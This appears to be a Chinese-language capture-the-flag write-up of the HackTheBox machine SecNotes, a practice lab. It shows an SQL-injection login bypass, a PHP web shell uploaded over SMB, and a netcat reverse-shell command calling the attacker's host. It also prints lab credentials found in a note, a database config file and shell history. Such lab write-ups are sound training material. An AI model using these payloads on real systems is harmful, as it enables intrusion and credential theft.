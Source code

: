 ```yaml
---
title: HackTehBox-SecNotes
tags:
  - 靶机渗透
categories:
  - 技术水文
copyright: true
abbrlink: 8e5dfaea
date: 2019-02-02 16:46:15
---
```


![](https://ae01.alicdn.com/kf/HTB1dvGeaBaE3KVjSZLe760sSFXaw.png)
<!--more-->

## 信息收集 ##

```bash
nmap -p- -sV 10.10.10.97
```

开放了80、445、8808三个端口

![](https://ae01.alicdn.com/kf/HTB1h2ejaBCw3KVjSZFl763JkFXaE.png)
访问80端口，是个登录页面，注册一个账号

```bash
user:' w'or 1='1
pass:' w'or 1='1
```

![s](https://ae01.alicdn.com/kf/HTB1gWyfaCWD3KVjSZSg763CxVXaP.png)

注册成功，使用【w'or 1='1】登录，发现第三个笔记疑似smb之类的账号密码

![](https://ae01.alicdn.com/kf/HTB1w95larus3KVjSZKb760qkFXat.png)

使用 smbclient 尝试登录smb,用户：`Tyler`，密码：`92g!mA8BGjOirkL%OG*&`

```bash
smbclient //10.10.10.97/new-site -U Tyler
```

登录后发现该目录是web服务8808端口的根目录

![](https://ae01.alicdn.com/kf/HTB1p4yjaBCw3KVjSZFu763AOpXa6.png)

## 利用 ##

上传一句话马

```bash
put x.php   #注意，要把php放到当前运行目录下才能上传，不然不报错
```

```php
<?php
 if(isset($_REQUEST['x'])){
  $cmd = ($_REQUEST['x']);
  system($cmd);
  die;
 }
?>
```

![](https://ae01.alicdn.com/kf/HTB1ycSdaEWF3KVjSZPh760clXXaF.png)

这里要注意的是，目标机好像不是很稳定，不是php马被删就是smb断开连接，所以下面上传个nc通过之前上传的php马执行反弹一个shell回来

```
http://10.10.10.97:8808/atom.php?cmd=nc%2010.10.14.24%201337%20-e%20cmd.exe
```

![](https://ae01.alicdn.com/kf/HTB1aDacawKG3KVjSZFL761MvXXaI.png)

在`wwwroot`目录下找到连接数据库文件`db.php`

```php
<?php

if ($includes != 1) {
	die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
     
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

数据库连接文件暂时不管它了，先找`user.txt`

![](https://ae01.alicdn.com/kf/HTB1KeCdaECF3KVjSZJn762nHFXaf.png)

在桌面找到user.txt，还发现了个可疑的`bash.lnk`,运行该bash报错不存在，那就查找下真正路径在哪吧，找到完整路径后重新执行运行bash

```bash
where /R c:\ bash.exe

c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

![secnotes8.png](https://ae01.alicdn.com/kf/HTB1lAijaBGw3KVjSZFD760WEpXaF.png)

为了方便，使用python反弹个交互式的shell会话

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

查看历史命令，发现曾经使用明文密码登录过smb

```bash
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

![](https://ae01.alicdn.com/kf/HTB1e9ueaBWD3KVjSZFs763qkpXaH.png)

登录smb，在桌面找到root.txt

![](https://ae01.alicdn.com/kf/HTB1GlGdaA9E3KVjSZFG76319XXau.png)
